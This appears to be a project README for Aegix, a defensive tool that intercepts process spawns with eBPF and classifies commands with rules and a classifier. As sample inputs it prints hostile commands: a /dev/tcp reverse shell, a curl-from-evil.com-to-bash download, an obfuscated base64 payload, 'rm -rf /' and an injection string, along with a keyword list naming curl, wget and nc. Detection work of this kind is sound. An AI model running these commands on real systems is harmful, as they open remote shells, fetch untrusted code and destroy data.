

<div align="center">




<br /><br />

# 🛡️ Aegix

### *A Hybrid Architecture for Real-Time RCE Prevention*

**Aegix** is a production-grade security system that intercepts every process spawn at the kernel level, runs it through a cascading AI pipeline, and surfaces the result — with a human-readable explanation — on a live dashboard in milliseconds.

No new process runs without an intelligent **"OK"** from the AI.

</div>

---

## 📖 The Problem We Solve

Remote Code Execution (RCE) is the **"holy grail" for attackers** — once an attacker executes their own commands on your server, they own the system. Traditional defenses have three critical blind spots:

| Blind Spot | Why It Fails? |
|---|---|
| **Static Rule Evasion** | Attackers bypass filters using Base64, command chaining, and obfuscation |
| **Contextless Enforcement** | A firewall says *"Blocked"* — it can't tell you *why*, or what the attacker was trying to do |
| **Kernel Blind Trust** | Linux trusts any request from an authorized app — if an app is tricked, the kernel obeys |

**Aegix solves all three** — using eBPF at the kernel level for enforcement and cascading AI logic for intelligence and explanation.

---

## 🏗️ Architecture: The Security Sandwich

```
┌─────────────────────────────────────────────────────────────────┐
│  👁️  Layer 3: Dashboard (The Eye)                               │
│      React UI · Real-time WebSocket feed · Attack explanations  │
└────────────────────────┬────────────────────────────────────────┘
                         │ WebSocket (ws://)
                         ▼
┌─────────────────────────────────────────────────────────────────┐
│  🧠 Layer 2: Aegix (The Brain)                                  │
│      FastAPI · SQLite persistence · WebSocket broadcast         │
│                                                                 │
│      ┌─────────────────────────────────────────────────┐        │
│      │  Tier A: Rule Engine  (60% weight, <1ms)        │        │
│      │  → Pattern matching: shells, injections, RCEs   │        │
│      │  → Keyword detection: curl, wget, nc, eval...   │        │
│      │  → Entropy detection: Base64, hex payloads      │        │
│      ├─────────────────────────────────────────────────┤        │
│      │  Tier B: ML Scorer    (40% weight, ~5ms)        │        │
│      │  → Logistic Regression on TF-IDF features       │        │
│      │  → Trained on labeled command dataset           │        │
│      └─────────────────────────────────────────────────┘        │
│      Combined risk score 0-100 → safe / suspicious / malicious  │
└────────────────────────┬────────────────────────────────────────┘
                         │
┌─────────────────────────────────────────────────────────────────┐
│  💪 Layer 1: Aegix (The Muscle)                                 │
│      eBPF tracepoint on execve syscall                          │
│      → Captures: PID, PPID, UID, command, args                  │
│      → Streams to user-space via ring buffer                    │
│      → Graceful fallback on Windows / macOS / WSL               │
└─────────────────────────────────────────────────────────────────┘
```

### ⚡ Why Not Just Use AI?

The biggest problem with AI in security is **speed**. If you wait 5 seconds for a model to respond, the server is already compromised. We solve this with **Cascading Logic**:

1. **Simple commands** → cleared in milliseconds by the Rule Engine
2. **Complex/suspicious commands** → ML Scorer flags and blocks immediately
3. **Explanation** → generated asynchronously so the block happens first, insight follows

---

## 🎯 Real-World Threat Coverage

| Attack Type | Example | How We Stop It |
|---|---|---|
| **Command Injection** | `127.0.0.1; bash -i` | Rule Engine: injection pattern match |
| **Reverse Shell** | `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1` | Rule Engine: reverse shell pattern |
| **Obfuscated Payload** | `bash -c "{echo,YmFzaC...}\|{base64,-d}\|bash"` | ML: high entropy score |
| **Script Download** | `curl http://evil.com/script.sh \| bash` | Rule Engine: pipe-to-shell pattern |
| **Destructive Command** | `rm -rf / --no-preserve-root` | Rule Engine: destructive pattern |
| **Log4Shell-style** | App spawning unexpected shell | Kernel intercepts the execve spawn |
| **Crypto-Miner / Memory Bomb** | Process spikes RAM at spawn (>50MB) | Rule Engine: `memory_hog` flag + +30 risk penalty |

---

## 📈 ML Model Performance

The Tier B Logistic Regression model is trained on a sanitized 12,000-command dataset using a 5,000-feature TF-IDF pipeline with balanced class weights. The current test-set metrics are:

| Metric | Score | Impact |
|---|---|---|
| **Accuracy** | `98.83%` | Extremely high classification correctness. |
| **MAP** | `0.9925` | **Mean Average Precision**: The model practically never triggers a False Positive when it flags a command as Malicious. |
| **R² Score** | `0.9060` | Captures >90% of the behavioral variance between safe and malicious commands. |
| **RMSE** | `0.1208` | **Root Mean Square Error**: When the model predicts Malicious, its probability output is highly confident (e.g., 0.98), not guessing (e.g., 0.55). |

---

## 🚀 Live Demo

**Production Deployment**: [Aegix Dashboard](https://kernalaisecurity-production.up.railway.app)

- **API Base URL**: `https://kernalaisecurity-production.up.railway.app`
- **Status**: ✅ Live and ready for testing
- **WebSocket**: `wss://kernalaisecurity-production.up.railway.app/ws`

Test with sample commands: Run `./TEST_COMMANDS.ps1` (PowerShell) to execute 20 automated test cases against the live API.

---

## 🚀 Quick Start

### Prerequisites

| Tool | Version | Install |
|---|---|---|
| 🐍 Python | 3.10+ | [python.org](https://www.python.org/downloads/) |
| 📦 Node.js | 18+ | [nodejs.org](https://nodejs.org/) |
| 🐧 WSL2 (Windows users) | Any | [Microsoft Docs](https://learn.microsoft.com/en-us/windows/wsl/install) |
| 🐍 conda (recommended) | Any | [Miniconda](https://docs.conda.io/en/latest/miniconda.html) |

> **🪟 Windows users**: Run all Python/backend commands inside WSL. The frontend can run on native Windows.

---

### 📥 Step 1 — Clone the Repository

```bash
git clone https://github.com/Raphel6969/kernal_ai_bouncer.git
cd kernal_ai_bouncer
```

---

### 🐍 Step 2 — Set Up Python Environment

```bash
# Using conda (recommended — isolates dependencies cleanly)
conda create -n aegix python=3.11 -y
conda activate aegix

# OR using standard venv
python -m venv .venv
source .venv/bin/activate      # Linux / macOS / WSL
# .\.venv\Scripts\activate     # Windows PowerShell
```

---

### 📦 Step 3 — Install Backend Dependencies

```bash
pip install -r requirements.txt
```

> If you see a warning about `bcc` or `eBPF`, that's expected on Windows/WSL — the system will automatically fall back to API-only mode.

---

### ⚙️ Step 4 — Configure Environment

```bash
# Edit the local config directly
# (the repo now uses a single .env file)
```

The defaults are ready to go. Only edit `.env` if you need to change a port or set up a public deployment. See [Configuration Reference](#%EF%B8%8F-configuration-reference) below.

---

### 🎨 Step 5 — Install Frontend Dependencies

```bash
cd frontend
npm install
cd ..
```

---

### ▶️ Step 6 — Run the System

You need **two terminals** running simultaneously.

**Terminal 1 — Backend**
```bash
conda activate aegix
python -m uvicorn backend.app:app --host 0.0.0.0 --port 8000
```

You should see the startup banner:
```
==================================================
🚀 Starting Aegix backend...
   Platform:      linux
   Owner Mode:    backend
   API URL:       http://0.0.0.0:8000
   WebSocket URL: ws://0.0.0.0:8000/ws
   Kernel Active: YES
==================================================
✅ Backend ready!
```

Quick verify:
```bash
curl http://localhost:8000/healthz
# → {"status": "ok"}
```

**Terminal 2 — Frontend Dashboard**
```bash
cd frontend
npm run dev
```

Open **[http://localhost:5173](http://localhost:5173)** — you should see:

| Indicator | Expected |
|---|---|
| 🟢 Backend pill | **Online** |
| 🟢 WebSocket pill | **Connected** |
| 🛡️ Remediation toggle | **OFF** (safe default) |

---

## 🎬 Running the Demo

With both services running, open a third terminal:

```bash
bash scripts/demo.sh
```

The demo walks through **3 interactive stages** — press `Enter` between each so you can point at the dashboard:

| Stage | Command | Expected Result |
|---|---|---|
| ✅ Benign | `ls -la /var/log` | `safe` — no patterns, low risk |
| ⚠️ Suspicious | `eval $(cat /tmp/script.sh)` | `suspicious` — obfuscation pattern |
| 🚨 Malicious | `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1` | `malicious` — reverse shell, high entropy |

**Manual test (no script needed):**
```bash
# Linux / WSL
curl -s -X POST http://localhost:8000/analyze \
  -H "Content-Type: application/json" \
  -d '{"command": "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"}' \
  | python3 -m json.tool

# Windows PowerShell
Invoke-RestMethod -Method Post -Uri "http://localhost:8000/analyze" `
  -ContentType "application/json" `
  -Body '{"command": "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"}'
```

Expected response:
```json
{
  "classification": "malicious",
  "risk_score": 92.5,
  "matched_rules": ["reverse_shell_pattern"],
  "ml_confidence": 0.95,
  "explanation": "🚨 Command is likely malicious and should be blocked..."
}
```

---

## ⚙️ Configuration Reference

All configuration lives in **one file**: `.env` at the project root.

### Backend Settings

| Variable | Default | Description |
|---|---|---|
| `KERNEL_MONITOR_OWNER` | `backend` | Who owns eBPF hooks: `backend`, `agent`, `disabled` |
| `API_HOST` | `0.0.0.0` | Host address to bind |
| `API_PORT` | `8000` | Port to listen on |
| `API_LOG_LEVEL` | `info` | Log verbosity: `debug`, `info`, `warning` |
| `FRONTEND_ORIGINS` | `http://localhost:5173,...` | Comma-separated CORS-allowed origins |
| `DB_PATH` | `data/events.db` | SQLite path (auto-resolved to absolute) |
| `EVENT_CACHE_SIZE` | `1000` | Max in-memory event cache |
| `BACKEND_URL` | `http://localhost:8000` | URL the agent uses to forward events |
| `AGENT_EVENT_TIMEOUT` | `5` | Agent HTTP timeout in seconds |

### Frontend Settings

| Variable | Default | Description |
|---|---|---|
| `VITE_API_URL` | `http://localhost:8000` | Backend URL used by all dashboard API calls |

> **For a public demo:** change `VITE_API_URL` and `FRONTEND_ORIGINS` to your tunnel URL (e.g. ngrok). That's the only change needed.

---

## 🔒 Kernel Monitor Ownership Modes

The `KERNEL_MONITOR_OWNER` variable controls which process attaches the eBPF hook. This prevents duplicate event capture.

| Mode | Who runs eBPF | Use when |
|---|---|---|
| `backend` *(default)* | FastAPI process | Running backend directly |
| `agent` | Agent sidecar | Running agent as a standalone service |
| `disabled` | Nobody | Windows / macOS / testing |

> ⚠️ **Never run both `backend` and `agent` in eBPF mode simultaneously** — you will get duplicate events.

---

## 🧪 Testing

```bash
# Run all tests
python -m pytest tests/ -v

# Run specific suite
python -m pytest tests/test_kernel_owner.py -v
```

Test suites cover:
- ✅ Ownership mode regression (`backend`, `agent`, `disabled`)
- ✅ Thread-safe kernel callback → async queue handoff
- ✅ No duplicate events in `backend` owner mode
- ✅ Agent backoff/retry when backend is unreachable

---

## 📚 Documentation

| Doc | Purpose |
|---|---|
| [`docs/API.md`](docs/API.md) | All endpoints, request/response shapes, WebSocket protocol |
| [`docs/ARCHITECTURE.md`](docs/ARCHITECTURE.md) | Deep-dive: eBPF hook, detection pipeline, ownership model |
| [`docs/WHITEPAPER.pdf`](docs/WHITEPAPER.pdf) | Full technical whitepaper with architecture diagrams, execution flow, detection methodology, and system design |
| [`docs/archive/`](docs/archive/) | Historical build logs and project roadmap |

---

## 📄 Whitepaper

The project whitepaper provides a detailed breakdown of:

- System architecture
- eBPF execution interception flow
- Hybrid detection engine
- ML scoring pipeline
- WebSocket event propagation
- Real-time remediation strategy
- Dashboard communication model

## 🗺️ Roadmap

- [x] eBPF kernel hook (execve tracepoint)
- [x] Rule Engine + ML Scorer pipeline
- [x] Live WebSocket dashboard
- [x] SQLite persistence + alert webhooks
- [x] Auto-remediation (kill malicious process)
- [x] `/healthz` liveness probe
- [x] Startup banner with system state
- [x] Dynamic AI Sensitivity Thresholds
- [x] Tag-based Webhook Filtering (Safe/Suspicious/Malicious)
- [x] Real-time JSON Log Export
- [ ] Rate limiting (Phase 3)
- [ ] API key auth + tunnel protection (Phase 3)
- [ ] LLM-powered explanation tier (Tier C)
- [ ] XDP network packet filtering
- [ ] Local SLM for offline/air-gapped deployments
- [ ] Memory-level fileless attack detection

---

## 👥 Team

Built by the **Kernal Security** team.
  - Saswat Sahu
  - Yuvika Goel
  - Swetaleena Das
  - Shreya Garg
---

<div align="center">

**⭐ Star this repo if it helped you understand kernel-level security!**

</div>
